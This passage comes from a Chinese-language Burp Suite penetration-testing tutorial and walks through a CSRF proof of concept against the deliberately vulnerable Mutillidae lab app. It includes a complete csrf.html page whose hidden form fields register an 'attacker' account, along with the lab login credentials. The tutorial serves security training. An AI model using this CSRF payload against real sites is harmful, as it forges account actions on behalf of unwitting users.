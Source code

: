 ![图 6.33 – 对于 Burp Suite Community 版，如何创建 CSRF PoC](img/B21173_06_033.jpg)

图 6.33 – 对于 Burp Suite Community 版，如何创建 CSRF PoC

1.  在查看页面源代码时，向下滚动到 **<form>** 标签部分。为了简洁起见，下面重新创建了该表单。将 **attacker** 作为用户名、密码和签名的值。复制以下 HTML 代码并将其保存为名为 **csrf.html** 的文件：

    ```
    <html>
    <body>
    <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.56.101/mutillidae/index.php?page=register.php" method="POST">
    <input type="hidden" name="csrf-token" value="" />
    <input type="hidden" name="username" value="attacker" />
    <input type="hidden" name="password" value="attacker" />
    <input type="hidden" name="confirm_password" value="attacker"
    /> <input type="hidden" name="my_signature" value="attacker account" />
    <input type="hidden" name="register-php-submit-button" value="Create Account" />
    <input type="submit" value="Submit request" />
    </form>
    </body>
    </html>
    ```

1.  现在，返回到登录页面（点击顶部菜单中的 **登录/注册**）并使用用户名 **ed** 和密码 **pentest** 登录到应用程序。

1.  打开你在本地保存的 **csrf.html** 文件所在的位置。将文件拖动到 **ed** 已认证的浏览器中。在将文件拖到浏览器后，**csrf.html** 会作为一个单独的标签出现在同一浏览器中：
